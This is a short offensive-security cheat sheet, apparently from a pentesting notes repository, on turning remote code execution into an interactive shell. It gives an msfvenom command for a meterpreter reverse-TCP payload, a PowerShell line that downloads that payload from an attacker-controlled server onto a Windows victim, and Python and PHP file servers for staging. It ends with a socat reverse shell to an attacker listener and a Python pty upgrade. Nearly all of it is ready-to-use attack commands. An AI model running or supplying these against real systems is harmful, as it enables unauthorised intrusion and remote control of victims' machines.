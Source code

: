 ## Some useful tricks that could be useful to get a shell

#### 1. I have a RCE on windows box and I need to get a shell... Wget with Powershell!

* Obtain your payload with msfvenom or similar:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```

* Execute through your RCE on windows box:

```
command = "PowerShell -Command \"wget 'http://your_controlled_server/payload.exe' -OutFile reverse.exe\"" # command to run with RCE
```

Execute your payload (now called "reverse.exe") using RCE and setup a listening with msf multi-handler.

*Obs: Obviously, this method may not work well due to permission conditions and so on. This is out-of-scope... it's just a trick! :-)*

#### 2. I need to transfer files (like my payloads) between VMs/hosts

* You can setup a simple web server using Python or PHP.
	+ Python:

	```python
	python -m SimpleHTTPServer 8080
	```
	
	And a simple HTTP server will be listening on your 8080 TCP port.
	
	+ PHP:

	```php
	php -S 127.0.0.1:8080
	```
	And a simple HTTP server will be listening on 127.0.0.1:8080.
	
#### 3. Upgrading simple shells to TTYs (or something close to it)

* Python with "pty":

```python
python -c "import pty;pty.spawn('/bin/bash');"
```
* Socat

On your localhost (attacker):

```
socat file:`tty`,raw,echo=0 tcp-listen:443
```

On your victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST_IP>:443
```

## Interesting links to read!

https://blog.ropnop.com/transferring-files-from-kali-to-windows/ (A lot of techniques to transfer files from attacker machine to a windows box)
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ (Upgrading simple shells techniques)
